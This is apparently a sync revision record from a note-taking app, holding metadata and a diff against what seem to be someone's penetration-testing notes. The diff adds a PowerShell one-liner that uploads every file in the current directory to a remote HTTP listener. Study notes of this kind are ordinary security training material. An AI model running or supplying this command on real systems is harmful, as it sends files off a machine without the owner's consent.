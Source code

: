 id: 9ee533861dec4755a4d4d83966df3418
parent_id: aff730a9dfd54fae996a4bff34ba1ab7
item_type: 1
item_id: 6542c907ee3d4b659b0fd7588c5dbe48
item_updated_time: 1652953601121
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"6170\"],[-1,\" \"],[0,\"\\\n\\\n> \"]],\"start1\":321,\"start2\":321,\"length1\":9,\"length2\":8},{\"diffs\":[[0,\"one go\\\n\\\n\"],[1,\"> foreach($item in (dir)){ (New-Object System.Net.WebClient).UploadFile('http://192.168.49.154:8000/', $item.FullName)}\\\n\\\n\"],[0,\"If we wa\"]],\"start1\":733,\"start2\":733,\"length1\":16,\"length2\":137}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-19T09:48:00.164Z
created_time: 2022-05-19T09:48:00.164Z
type_: 13